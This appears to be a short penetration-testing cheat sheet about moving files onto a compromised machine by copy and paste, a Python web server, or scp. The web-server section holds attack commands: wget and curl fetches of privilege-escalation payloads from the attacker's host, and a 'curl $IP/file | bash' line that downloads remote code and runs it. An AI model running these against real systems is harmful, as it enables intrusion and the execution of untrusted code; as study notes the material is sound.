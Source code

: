 # Transporting Files 📦

### Transport - Table of Contents 
   1. Copy & Paste 
   2. Python WebServer 
   3. SCP (through SSH)

## 1) Copy & Paste
  + Could just try _Copy&Paste_

--------------------------------------------------------------
### + + + + + + + + + + + + + + + + + + + + + + +
## 2) Python WebServer

- - - - - - - - - - - - - - - - - - - - - - - - - - - - -

1. Setup python webserver on local machine:
  + `python2 -m SimpleHTTPServer`
   - Run this **in the directory** where I have _interesting payloads_
    * Such as _PrivEsc scripts/binaries_
- - - - - - - - - - - - - - - - - - - - - - - - - - - - -

2. On the _compromised machine_ / `shell`
  + Try _visiting the web page_ of my _python webserver_
   - `http://$PY_SERVER_IP`
  
  + [Linux]: Try using `curl` or `wget`
   - `wget $PY_SERVER_IP/directory_to/file`
   - `curl $PY_SERVER_IP/directory_to/file`
  
- - - - - - - - - - - - - - - - - - - - - - - - - - - - -

* PwnShell (Linux): `curl` or `wget`
 - `wget $IP/directory_to/file`
 - `curl $IP/directory_to/file | bash`

- - - - - - - - - - - - - - - - - - - - - - - - - - - - -

--------------------------------------------------------------
### + + + + + + + + + + + + + + + + + + + + + + +
## 3) SCP (through SSH)
 * If _ssh is available,_ try using `scp`

-------------------------------------------------------------
### + + + + + + + + + + + + + + + + + + + + + + +
